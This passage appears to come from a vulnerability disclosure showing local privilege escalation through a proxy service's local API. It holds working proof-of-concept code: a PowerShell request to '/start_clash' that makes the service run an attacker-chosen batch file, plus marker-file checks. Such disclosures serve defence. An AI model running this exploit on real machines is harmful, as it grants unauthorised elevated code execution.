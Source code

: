 3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```

![](./2.png)

![](./3.png)

### Windows

pwn.bat:

```bat
@echo off
whoami > C:\Users\xxx\Desktop\pwned.txt
```

test.ps1:

```powershell
$apiUrl = "http://127.0.0.1:33211/start_clash"
$headers = @{ "Content-Type" = "application/json" }
$body = @{
    bin_path    = "C:\Users\xxx\Desktop\pwn.bat"
    config_dir  = "C:\Windows\Temp"
    config_file = "NUL"
    log_file    = "C:\Windows\Temp\exploit.log"
} | ConvertTo-Json

Invoke-RestMethod -Uri $apiUrl -Method Post -Headers $headers -Body $body
```

![](./4.png)
